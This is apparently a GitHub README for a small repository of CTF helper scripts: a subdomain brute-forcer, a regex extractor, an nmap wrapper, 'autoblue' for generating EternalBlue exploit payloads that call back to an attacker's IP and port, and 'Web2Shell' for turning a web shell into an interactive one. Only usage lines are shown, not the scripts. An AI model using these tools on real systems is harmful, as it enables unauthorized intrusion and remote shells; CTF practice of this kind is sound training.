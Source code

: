 # crispy-giggle
Some scripts used to solve ctf challenges.

## SubBrute
Useful against subdomain wild card. You just need to exclude the status code (-x) or the content length (-xL) to avoid seeing default page.

Usage: `./subbrute.sh -d DOMAIN -D DICTIONARY -o OUTFILE -xL 1234`

## msed
Extract a regex matching group with sed.

The default is the first matching group:
```
$ echo test123abc | ./msed test(.*)abc
123
```

For multiple matching group use:
```
$ echo test123abc456def | ./msed "test(.*)abc(.*)def" 2
456
```
## autoblue
Generate payload to exploit EternalBlue in x86 by default. Add the option `-x64` to have the 64 bits version.

Usage: `./autoblue.sh -lhost YOUR_IP -lport LISTENING_PORT`

## nmap-ng
Run a full tcp ports scan with nmap and then a detailed scan on all the open ports.

Usage: `./nmap-ng TARGET_IP`

## Web2Shell
Convert a web shell into an interactive shell (almost).

First, edit the function send\_payload.
Usage: `./web2shell.sh -u TARGET_URL [-i | --interactive]`
